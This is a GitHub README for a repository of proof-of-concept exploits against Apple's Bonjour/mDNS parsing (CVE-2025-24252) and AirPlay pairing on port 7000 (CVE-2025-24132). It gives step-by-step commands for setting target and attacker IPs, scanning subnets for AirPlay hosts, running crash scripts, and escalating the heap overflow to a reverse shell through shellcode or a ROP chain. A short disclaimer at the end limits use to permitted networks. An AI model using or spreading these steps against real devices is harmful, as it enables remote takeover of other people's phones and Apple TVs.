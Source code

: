 #AIRBORNE 2-PoCs-1-repository
poc for CVE-2025-24252 &amp; CVE-2025-24132

both bugs live in Apple’s parsing of network data (especially Bonjour/mDNS and AirPlay’s TCP pairing flow)

**start with CVE-2025-24252, the mDNS TXT record one**

over mDNS (Bonjour). Triggerable via malformed TXT records.

-Install scapy and avahi on Kali

sudo apt update

sudo apt install python3-scapy avahi-daemon -y

-Start avahi (mDNS responder)

sudo systemctl start avahi-daemon

git clone https://github.com/ekomsSavior/2-PoCs-1-repository.git

-Set your attacker IP and interface on crashtest_CVE-2025-24252.py

nano crashtest_CVE-2025-24252.py (edit ip & interface)

ctrl + x, then y and finally enter to exit.

-run PoC Script 

python3 crashtest_CVE-2025-24252.py

Use tcpdump to capture traffic on the Apple device’s IP

--Only test this on your own Apple devices in a safe lab setting.

**CVE-2025-24132 – AirPlay Pairing Exploit PoC**

This bug is in the AirPlayScreen component and can trigger a heap overflow by sending malformed handshake/init packets over TCP to port 7000 on the target device.**

-Scan for AirPlay Hosts

On your attacker Kali box

nmap -p 7000 --open --script=banner <your-local-subnet>/24

TCP Malformed Packet PoC CVE-2025-24132 

low-level socket-based fuzzing PoC that can be expanded into an RCE trigger with proper payload crafting

edit script for target ip

nano PoC_CVE-2025-24132.py

edit ip, ctrl +x, then y then enter to exit nano.

run PoC

python3 PoC_CVE-2025-24132.py

Confirm the Exploitability

Check your Apple device for

  System reboots

  Pairing process freezes

  AirPlay app or UI crashes

If confirmed, we now have a heap overflow condition. 

**From Crash to Code Execution**

Trigger CVE-2025-24132 (heap overflow via AirPlay TCP pairing) to deliver a reverse shell or execute launchctl on a vulnerable Apple device.

Overflow the heap cleanly

Inject shellcode or a ROP chain

Execute remote code like a reverse shell.

-What We Know

AirPlay runs a service on port 7000/tcp

The pairing-init POST request is vulnerable when oversized

Apple TV and iOS handle pairing using a binary plist-like format, or sometimes a JSON hybrid.

The vulnerable component parses a POST with Content-Type: application/octet-stream.

edit CVE-2025-24132_RCE.py

nano CVE-2025-24132_RCE.py (edit target and attacker ip)

launch CVE-2025-24132 RCE Simulation Script

python3 CVE-2025-24132_RCE.py

DISCLAIMER-

USER ASSUMES RESPONSIBILITY WHEN UTILIZING THIS TOOL. ONLY TEST ON NETWORKS YOU HAVE EXPLICIT PERMISSION TO TEST ON.








